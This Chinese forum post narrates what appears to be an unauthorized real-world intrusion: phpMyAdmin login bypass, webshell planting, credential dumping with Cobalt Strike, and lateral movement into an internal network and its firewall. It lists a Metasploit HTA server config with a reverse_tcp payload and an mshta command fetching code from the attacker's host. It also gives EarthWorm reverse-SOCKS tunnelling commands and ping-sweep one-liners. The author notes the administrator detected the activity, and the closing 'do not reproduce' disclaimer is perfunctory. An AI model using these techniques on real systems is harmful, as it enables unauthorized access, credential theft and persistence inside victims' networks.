# 我遇到的实战渗透 - 先知社区

我遇到的实战渗透

- - -

### 观众老爷们好啊 给大家表演个基本操作

-   本文适合正在学习入门的小伙伴 师傅们就不必踏雪我了
-   第一次写文章有点细(生怕写的不好,却是也是烂)中间介绍了插件工具等 可能会看一阵子 麻烦您了  
    多采用各种骚词(真实的内心反映) 皆是为了带动积极性希望入门的朋友把渗透当作有趣的事情来思考，抛弃枯燥乏味的感觉，冒昧之处还请多多包涵。

### 外网

> *信息收集怎么说呢 肯定是越全面越好 但找到突破口了 就不想去收集其他了 反之如果没找到合适的突破口那可能是收集不够全*

-   感觉这网站（[https://scan.top15.cn/web/](https://scan.top15.cn/web/) ）  
    使其还不错功能挺全 查到的东西也多点 这不phpmyadmin就把头伸过来了  
    [](https://xzfile.aliyuncs.com/media/upload/picture/20200314234355-9d11f892-660a-1.png)
    
-   接着看 基本信息还是有必要了解下  
    工具这东西吧 好是好就是不够准确 妈蛋 Linux 都冒出来了  
    (判断网站操作系统 最快捷的就是大小写 Windows对网址中的大小写不敏感 Linux则反之) [](https://xzfile.aliyuncs.com/media/upload/picture/20200315191157-c8eeaf20-66ad-1.png)
    
-   火狐插件 判断不迷路  
    [](https://xzfile.aliyuncs.com/media/upload/picture/20200307181803-ee1f3406-605c-1.png)
    

-   火狐插件 傻蛋也是几款网络搜索中的老大哥了  
    [](https://xzfile.aliyuncs.com/media/upload/picture/20200314234452-bf0a2370-660a-1.png)

-   好奇心使我注意到443端口 渗透就想巧克力 永远不知道下一步是啥样儿的  
    手工尝试了 简单弱口令 不行就先放着  
    后面可以尝试 爆破 注入 等等  
    [](https://xzfile.aliyuncs.com/media/upload/picture/20200307181947-2c4e56bc-605d-1.png)

-   回到正文来 之前网站识别出来的 phpmyadmin 头还伸着呢  
    [](https://xzfile.aliyuncs.com/media/upload/picture/20200307182011-3a60ba7e-605d-1.png)

-   得知版本2.10.3 第一件事就是百度 有问题多问度娘不行就谷哥 有万能密码() 试试就试试  
    [](https://xzfile.aliyuncs.com/media/upload/picture/20200307182100-579eae98-605d-1.png)

-   不清楚10.3版本也可以利用该漏洞（也可以尝试爆破）  
    ‘localhost’@'@”  
    [](https://xzfile.aliyuncs.com/media/upload/picture/20200307182138-6e620e86-605d-1.png)

-   进来后 拿shell为目的 （注意无权限）  
    第一种 phpmyadmin 熟悉两种方式 一种直接冲 into outfile 直接写 尝试失败 猜测因为万能密码原因  
    [](https://xzfile.aliyuncs.com/media/upload/picture/20200307182200-7b3641ea-605d-1.png)  
    第二种 思路：就是利用mysql的一个日志文件。这个日志文件每执行一个sql语句就会将其执行的保存。我们将这个日 志文件重命名为我们的shell.php然后执行一条sql带一句话木马的命令。然后执行菜刀连接之！  
    [](https://xzfile.aliyuncs.com/media/upload/picture/20200307182224-89d394c8-605d-1.png)  
    第二种 办法 好像此处版本太低 实现不了  
    有趣的人运气不会太差 瞧瞧咱找到什么宝贝了  
    [](https://xzfile.aliyuncs.com/media/upload/picture/20200315185207-03a36a46-66ab-1.png)

-   口令在手 shell我有  
    [](https://xzfile.aliyuncs.com/media/upload/picture/20200315190517-da746bb4-66ac-1.png)
    
    那么问题来了 绝对路径怎么找 首先尝试以下url  
    phpMyAdmin/libraries/select\_lang.lib.php  
    phpMyAdmin/darkblue\_orange/layout.inc.php  
    phpMyAdmin/index.php?lang\[\]=1  
    phpmyadmin/themes/darkblue\_orange/layout.inc.php
    
-   还有其他方法 比如info  
    有就更好 没有首先会尝试 谷歌语法了
    

##### 三种常见搜索引擎

[](https://xzfile.aliyuncs.com/media/upload/picture/20200315190645-0f28da20-66ad-1.png)  
[](https://xzfile.aliyuncs.com/media/upload/picture/20200315190726-2729a23a-66ad-1.png)  
[](https://xzfile.aliyuncs.com/media/upload/picture/20200315190813-43487dc4-66ad-1.png)

-   还有种方式 就是用谷歌镜像 也还行  
    [](https://xzfile.aliyuncs.com/media/upload/picture/20200315190917-694a092a-66ad-1.png)
    
-   现在万事俱备只差马儿  
    [](https://xzfile.aliyuncs.com/media/upload/picture/20200307184437-a4048be2-6060-1.png)
    
-   刚开始蚁剑执行命令是有回显的 第二天执行就没了 让朋友看了下disable\_functions什么情况 为什么要为难我  
    [](https://xzfile.aliyuncs.com/media/upload/picture/20200307184513-b9dff4a6-6060-1.png)
    
-   接着重新写马 试试能不能执行系统命令结果可以啊 菜刀也能执行命令 只不过变成这样回显 顶！(如果有了解情况的师傅 麻烦告知 感激不尽)  
    [](https://xzfile.aliyuncs.com/media/upload/picture/20200307184538-c8c524be-6060-1.png)
-   But 虽然没了 回显但还是能执行命令。。。  
    [](https://xzfile.aliyuncs.com/media/upload/picture/20200307184610-db6978a4-6060-1.png)
-   Getshell过程没什么操作难度(太难的也操作不出来)主要是记录成长过程以及对刚入门朋友描述下大概思路

### 内网

> 注意服务器改端口 防止 全网爆破流 然后用screen 挂起后台运行避免ssh断了 cs清空  
> 服务器用的是 阿里云学生机(一年也就一百来块)还是挺不错的

-   cs 刚开始的时候上了顺手把密码抓了 看了看大致情况就睡了  
    第二天 随便执行一条命令就掉 第一天都能执行命令 密码都抓了哦 现在说掉就掉 吊！  
    [](https://xzfile.aliyuncs.com/media/upload/picture/20200307185140-a0234120-6061-1.png)  
    [](https://xzfile.aliyuncs.com/media/upload/picture/20200315200405-119982e8-66b5-1.png)

##### 佳哥让试试msf 可能是我的cs有问题

-   msf生成hta
    
    ```plain
    use exploit/windows/misc/hta_server
    set payload windows/meterpreter/reverse_tcp
    set lhost xx.xx.xx.xx
    set lport 6666
    ```
    
    执行 mshta.exe [http://xx.xx.xx.xx/pKz4Kk059Nq9.hta](http://xx.xx.xx.xx/pKz4Kk059Nq9.hta)  
    [](https://xzfile.aliyuncs.com/media/upload/picture/20200307185241-c4ab51e0-6061-1.png)
    
-   查找了下域控ip 192.168.30.61  
    [](https://xzfile.aliyuncs.com/media/upload/picture/20200307185313-d7d8beec-6061-1.png)
    
-   这里存活ip检测不够准确(后面cs扫还有给.11主机)  
    [](https://xzfile.aliyuncs.com/media/upload/picture/20200307185341-e8392484-6061-1.png)
    
-   这里 还打过ms17\_010无果 忘了截图了--------------  
    Msf好久没用 不知道感觉用些什么了 还是上cs把 直观点 msf可以转发到cs  
    但那操作还不如我直接上cs来的快(说白了 就是懒)
    

##### 第二天带着疯狂掉线疑问 问了前辈 告知是由于破解没完全 发了个破解完全了版本 重新拉起

[](https://xzfile.aliyuncs.com/media/upload/picture/20200307185723-6c8a184c-6062-1.png)

-   到内网 先看是否是域环境 接下来顺序  
    提权>毕竟很多命令或者程序需要高权限能省不少麻烦(这里已经最高权限)  
    横向渗透>扩展姿势(ms17\_010、口令碰撞、哈希传递、内网web、弱口令其实也就是信息收集过程  
    拿下域控>毕竟域控才是王道
    
-   systeminfo 能看到很多本机信息  
    收集到的信息为 域环境 虚拟机 2012服务器等 补丁虽然很全 但上来就是最高权限 舒服了  
    [](https://xzfile.aliyuncs.com/media/upload/picture/20200307185756-8036ace8-6062-1.png)  
    [](https://xzfile.aliyuncs.com/media/upload/picture/20200315184812-77c56e70-66aa-1.png)  
    [](https://xzfile.aliyuncs.com/media/upload/picture/20200315184900-941b7d8a-66aa-1.png)
    

-   在域内却执行不了 域命令 真是什么奇葩环境都被我遇到了  
    平时看师傅们文章也没见过这些问题 还是要自己动手才晓得长记性
    
-   接着了解到 是域机器但不是域会话 说白了 就是没域用户 现在这个用户是本地最高权限  
    那还说啥 查看进程 把会话注入到有域用户上  
    还有种方式 就通过抓取到的口令 用make\_token仿冒域用户  
    [](https://xzfile.aliyuncs.com/media/upload/picture/20200315184651-4767f68a-66aa-1.png)
    
-   这真不清楚了 去他妈的 好惨一男的  
    [](https://xzfile.aliyuncs.com/media/upload/picture/20200315184510-0b0e9766-66aa-1.png)
    

-   后来发现自己一开始就错了 一开始看到systeminfo写的域 以为有域 毕竟长的太像了！！！  
    结果自己本机测试 工作组可以修改名字然后systeminfo就会出现类似于域名 例如  
    哎 这该死的名字！ 之前还坐了一顿傻逼操作 秀到自己了 还以为是域控关机下线或者迁移了(域内所有主机域用户或者命令都要经过域控执行)  
    [](https://xzfile.aliyuncs.com/media/upload/picture/20200307190046-e57da4bc-6062-1.png)

##### But也不对啊 如果是工作组 域都是大写 他是怎么办到小写的

###### 再者 前面用Msf都能看到域控Ip 难道误报？？？

-   这里不是有口令嘛 3389上去看看 这么神奇的玩意儿 到底啥样儿  
    cs 自带sock4  
    通过cs 建立sock4代理 加上 windows下面 proxifier
    
    ew(frp也可以但感觉用起没ew顺手)  
    目标: shell ew\_win32.exe -s rssocks -d x.x.x.x. -e 1024  
    公网ip: ./ew\_linux\_x64 -s rcsocks -l 1024 -e 1080 &  
    再用proxifier 连接
    
    还有就是msfconsole 也自带端口转发  
    cs的端口也带转发 不成功 不清楚原因 说无法绑定  
    [](https://xzfile.aliyuncs.com/media/upload/picture/20200307190120-fa122c40-6062-1.png)
    
-   上去看了一眼啥都没 空空荡荡 也没什么可翻找的 就退了 毕竟 用的sock4 慢点一逼
    

> 推荐 cs插件脚本 感觉挺全的挑着顺手的用还是有必要的（[https://www.codercto.com/a/57741.html](https://www.codercto.com/a/57741.html) ）

##### 不管了 这里就当是工作组环境

-   工作组 无非就是撞口令、永恒之蓝、搞WEB 不让用域命令 我扫可以趴 反正就是得搞你  
    横向准备工作
-   存活ip  
    循环ping 查找存活ip 不用上传 cmd 执行  
    for /l %i in (1,1,255) do @ ping 192.168.124.%i -w 1 -n 1|find /i "ttl="  
    nbtscan 扫描内网存活ip 及目标所属(看到域了) 大家都在用 上面脚本中有个一键上传的脚本  
    [](https://xzfile.aliyuncs.com/media/upload/picture/20200307190157-0fc4aa90-6063-1.png)  
    [](https://xzfile.aliyuncs.com/media/upload/picture/20200307190222-1ef406d2-6063-1.png)
    
-   端口开放 浏览器代理访问 看看是些什么东东  
    [](https://xzfile.aliyuncs.com/media/upload/picture/20200314234110-3abb8ef6-660a-1.png)
    

-   内网几台机器WEB 似乎都转发出来了 因为在外网也能看到 而且能访问登陆  
    [](https://xzfile.aliyuncs.com/media/upload/picture/20200307192954-f7632496-6066-1.png)  
    外网访问目标网站443端口就出来了 应该是端口转发或者NAT  
    web 刚开始弱口令进不去 后来想到不是抓取的有管理密码 当一下的就进去了  
    眼瞅着是边界防火墙设备 看了下配置规则没什么特别  
    [](https://xzfile.aliyuncs.com/media/upload/picture/20200307193019-066e4470-6067-1.png)

-   直到昨晚动静太大 惊动管理员了 一直在线而且配置了 规则也代理不出来 访问web的防火墙密码也改了 完蛋 ~  
    由于内网工作组环境 没有通杀漏洞、口令不通用、web有但无法代理的情况下 想不到其他思路继续进行、 当然也可以通过键盘记录、口令爆破等非常规方法进行由于太耗时就不再深入，对不起  
    [](https://xzfile.aliyuncs.com/media/upload/picture/20200314234047-2c81396c-660a-1.png)  
    [](https://xzfile.aliyuncs.com/media/upload/picture/20200314234701-0b8513ea-660b-1.png)  
    [](https://xzfile.aliyuncs.com/media/upload/picture/20200307193122-2bfeb68e-6067-1.png)

### 写在最后

-   文笔垃圾、措辞轻浮、内容尚浅、操作生疏、不足之处还求多多包涵和指正，感激不尽  
    感谢给予帮助的繁兴、Zed、以及白帽100少先队里面个个都是人才说话又好听，最后谢谢你  
    这是一次失败的渗透、但也是很好的开始
    
-   安全须知：  
    安全你我他 网络靠大家 请勿复现！  
    本文章经用于经验及交流，严禁用于非法操作，出现后果一切自行承担，阅读此文章表示你已同意。
